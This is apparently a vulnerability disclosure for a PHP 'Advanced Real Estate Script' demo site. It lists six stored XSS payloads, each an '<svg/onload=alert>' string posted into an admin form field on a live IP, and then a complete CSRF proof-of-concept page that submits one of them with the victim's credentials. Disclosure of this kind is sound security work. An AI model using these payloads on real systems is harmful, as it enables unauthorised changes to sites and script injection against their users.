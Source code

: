### Advanced Real Estate Script   XSS/CSRF

Well, when I pentest the official demo site of Advanced Real Estate Script, I found some vulnerabilities here.


#### XSS:

There're some stored-xss in this system, for example:

##### XSS1


```
http://198.38.86.159/~dineshkumarwork/demo/movie/admin/sitesettings.php
```

POST para:
```
------WebKitFormBoundaryzlMIDdRcppEeHLfc
Content-Disposition: form-data; name="keyword"

Movie Ticket booking'"><svg/onload=alert(/sxss/)><'"

```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Advanced-Real-Estate-Script/sxss1.png)

##### XSS2

```
http://198.38.86.159/~dineshkumarwork/demo/movie/admin/manageownerlist.php?edit&usrid=51
```
POST para:
```
------WebKitFormBoundaryl1hkCrSGo6aWqBcA
Content-Disposition: form-data; name="contact"

9500702882'"><svg/onload=alert(/sxss2/)><'"

```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Advanced-Real-Estate-Script/sxss2.png)

##### XSS3

```
http://198.38.86.159/~dineshkumarwork/demo/movie/admin/eventlist.php?edit&eventid=45
```

POST para:
```
------WebKitFormBoundaryMGILA7nm2cy2SRx1
Content-Disposition: form-data; name="cast"

sivakarthikeyan'"><svg/onload=prompt(/sxss3/)><'"

```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Advanced-Real-Estate-Script/sxss3.png)

##### XSS4

```
http://198.38.86.159/~dineshkumarwork/demo/movie/admin/movieedit.php?movieid=134
```

POST para:
```
------WebKitFormBoundarybSFVeH6LrfH6zOSG
Content-Disposition: form-data; name="moviename"

Tamizhan da Ennalum'"><svg/onload=alert(/sxss4/)><'"


```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Advanced-Real-Estate-Script/sxss4.png)


##### XSS5

```
http://198.38.86.159/~dineshkumarwork/demo/movie/admin/snacks_edit.php?sid=8
```


POST para:
```
------WebKitFormBoundaryfHHKnTbHD7iASd0w
Content-Disposition: form-data; name="snacks_name"

fsdfd'"><svg/onload=prompt(/sxss6/)><'"

```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Advanced-Real-Estate-Script/sxss5.png)



##### XSS6

```
http://198.38.86.159/~dineshkumarwork/demo/movie/admin/newsedit.php?newsid=7
```

POST para:
```
------WebKitFormBoundaryYD6kA6UVdLUiuSCp
Content-Disposition: form-data; name="newstitle"

News1'"><svg/onload=alert(/sxss7/)><'"

```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Advanced-Real-Estate-Script/sxss6.png)


#### CSRF:

Because of no protection here, we can use csrf to attack users, or change something sensitively into the panel directly.
By the way ,I just found no protection in the user panel here.

POC:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/198.38.86.159\/~dineshkumarwork\/demo\/movie\/admin\/movieedit.php?movieid=134", true);
        xhr.setRequestHeader("Content-Type", "multipart\/form-data; boundary=----WebKitFormBoundarybSFVeH6LrfH6zOSG");
        xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,image\/webp,image\/apng,*\/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "zh-CN,zh;q=0.9");
        xhr.withCredentials = true;
        var body = "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"moviename\"\r\n" + 
          "\r\n" + 
          "Tamizhan da Ennalum\'\"\x3e\x3csvg/onload=alert(/sxss4/)\x3e\x3c\'\"\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"mov_id\"\r\n" + 
          "\r\n" + 
          "134\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"mov_img\"\r\n" + 
          "\r\n" + 
          "movie06122017-688.jpg\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"ban_img\"\r\n" + 
          "\r\n" + 
          "banner06122017-395.jpg\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"language\"\r\n" + 
          "\r\n" + 
          "1\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"actor\"\r\n" + 
          "\r\n" + 
          "vaishali, vaisnavi,\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"musicdirector\"\r\n" + 
          "\r\n" + 
          "Manimaran\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"director\"\r\n" + 
          "\r\n" + 
          "Vignesh\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"producer\"\r\n" + 
          "\r\n" + 
          "Winston\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"runtime\"\r\n" + 
          "\r\n" + 
          "2\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"runmints\"\r\n" + 
          "\r\n" + 
          "6\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"trailerlink\"\r\n" + 
          "\r\n" + 
          "www.phpscriptsmall.com\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"trailerlink2\"\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"description\"\r\n" + 
          "\r\n" + 
          "\x3cp\x3efds\x3c/p\x3e\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"rating\"\r\n" + 
          "\r\n" + 
          "U\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"movieimage\"; filename=\"\"\r\n" + 
          "Content-Type: application/octet-stream\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"bannerimage\"; filename=\"\"\r\n" + 
          "Content-Type: application/octet-stream\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"release_date\"\r\n" + 
          "\r\n" + 
          "2017-12-06\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"end_date\"\r\n" + 
          "\r\n" + 
          "2017-12-09\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"submit\"\r\n" + 
          "\r\n" + 
          "Submit\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
  </body>
</html>



```

